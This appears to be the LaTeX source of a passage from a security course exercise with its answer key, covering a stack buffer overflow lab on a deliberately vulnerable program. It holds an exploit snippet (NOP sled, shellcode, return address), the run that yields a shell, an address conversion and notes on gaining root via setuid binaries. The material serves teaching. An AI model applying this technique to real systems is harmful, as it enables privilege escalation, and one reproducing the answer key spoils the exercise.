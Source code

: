\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
payload = nop_sled + shellcode + addr_bytes
sys.stdout.buffer.write(payload)
\end{lstlisting}

\textbf{3c)} Exploit execution:
\begin{lstlisting}[style=GDBStyle]
$ (python3 exploit_phase3.py ; cat) | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6

[DEBUG] buffer is at address: 0x7fffffffde10
[DEBUG] Enter your input:
[DEBUG] You entered: (garbage)
whoami
student
exit
\end{lstlisting}

\textbf{3d)} The x86-64 architecture uses \textbf{little-endian} byte order: the least significant byte is stored at the lowest address.

Conversion of \texttt{0x7fffffffde10} to little-endian:
\begin{lstlisting}[style=GDBStyle]
0x7fffffffde10 --> \x10\xde\xff\xff\xff\x7f\x00\x00
\end{lstlisting}

\begin{pointcle}
\begin{itemize}
    \item Shellcode injection provides the \textbf{same privileges} as the vulnerable program. If the program is \texttt{setuid root}, the attacker obtains a root shell.
    \item The \texttt{; cat} after the Python script is essential: without it, \texttt{stdin} closes immediately and the shell cannot receive commands.
    \item Addresses in GDB may differ by a few bytes compared to direct execution. The NOP sled absorbs this difference.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- NX protection and Return-to-libc \hfill\normalfont\textit{($\sim$35 min)}}


\end{exercice}
\end{document}

